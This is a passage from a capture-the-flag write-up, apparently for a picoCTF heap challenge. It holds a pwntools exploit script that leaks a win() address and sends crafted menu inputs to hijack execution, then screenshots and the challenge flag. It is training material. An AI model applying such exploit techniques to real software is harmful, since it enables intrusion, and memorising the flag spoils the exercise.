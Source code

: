 ```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe], *a, **kw)

exe = './vuln'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'

sh = start()

sh.sendlineafter(b'(e)xit', b'S')
sh.recvuntil(b'OOP! Memory leak...')
get = int(sh.recvline(), 16)
info('Leaked win addr: %#0x', get)

p = flat([
    get
])

sh.sendlineafter(b't', b'M')
sh.sendlineafter(b'Enter your username:', b'AAAAAAAA')
sh.sendlineafter(b't', b'I')
sh.sendlineafter(b'?', b'Y')

sh.sendlineafter(b't', b'L')
sh.sendlineafter(b':', p)

sh.interactive()

```

> RUN LOCALLY

![image](https://user-images.githubusercontent.com/70703371/225071743-36cfa798-9de5-45c3-8f57-b05cf169ffcb.png)


![image](https://user-images.githubusercontent.com/70703371/225071819-067cdc34-68bf-4cfd-a14d-ccd2ae9287d5.png)


32. Successfully trigger the `win()` function, let's run it remotely.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/225072042-03e3865b-1963-4b5d-9b22-89952fd95af4.png)


33. Got the flag!

## FLAG

```
picoCTF{d0ubl3_j30p4rdy_1e154727}
```








